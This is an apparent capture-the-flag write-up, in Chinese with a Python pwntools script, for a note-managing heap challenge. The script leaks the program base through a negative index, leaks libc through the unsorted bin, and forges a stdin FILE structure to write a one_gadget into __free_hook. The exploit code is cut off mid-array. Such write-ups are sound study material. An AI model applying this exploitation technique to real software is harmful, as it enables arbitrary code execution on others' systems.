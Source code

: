 ## nonono

* bss 上的東西可以隨便 leak ，剛好看到 index = -7 可以 leak program base
* 因為有 tcache, free 0x100 的 chunk 第八次讓他進 unsorted bin
* 然後 new note (size: 0) 拿到 libc address
* 偽造 FILE 結構 (stdin) 做任意寫，把 one_gadget 寫進 free hook

```python=
from pwn import *k
import time
import sys


def new_note(ind, size, content):
    proc.sendlineafter(b'>>', b'1')
    buf = f'{ind}\n{size}\n'.encode()
    buf += content
    proc.sendafter(b': ', buf)
    #proc.sendlineafter(b': ', f'{ind}'.encode())
    #proc.sendlineafter(b': ', f'{len(content)+1}'.encode())
    #proc.sendlineafter(b': ', content)


def del_note(ind):
    proc.sendlineafter(b'>>', b'3')
    proc.sendlineafter(b': ', f'{ind}'.encode())


def show(ind):
    proc.sendlineafter(b'>>', b'2')
    proc.sendlineafter(b': ', f'{ind}'.encode())
    return proc.recvuntil(b'=')


def exploit():
    if len(sys.argv) <= 1:
        input('attach to pid: {}'.format(proc.proc.pid))
    # fake in bss
    # leak heap
    proc.sendlineafter(b'>>', b'2')
    proc.sendlineafter(b': ', b'-7')
    prog_base = proc.recvuntil(b'=')
    prog_base = u64(prog_base[:6] + b'\x00\x00')
    prog_base -= 0x202008
    log.info('prog: ' + hex(prog_base))

    for i in range(8):
        new_note(i, 0x100, b'\n')
    for i in range(8):
        del_note(7 - i)
    new_note(0, 0, b'')
    libc = show(0)
    libc = u64(libc[:6].ljust(8, b'\x00'))
    libc -= 0x3aeda0
    log.info('libc: ' + hex(libc))

    vtable = libc + 0x3ab2a0
    free_hook = libc + 0x3b08e8
    write_adr = free_hook - 4
    size = 14
    lock = prog_base + 0x202800
    fake_stdin = [0x00000000fbad208b, write_adr,
            write_adr, write_adr,
            write_adr, write_adr,
```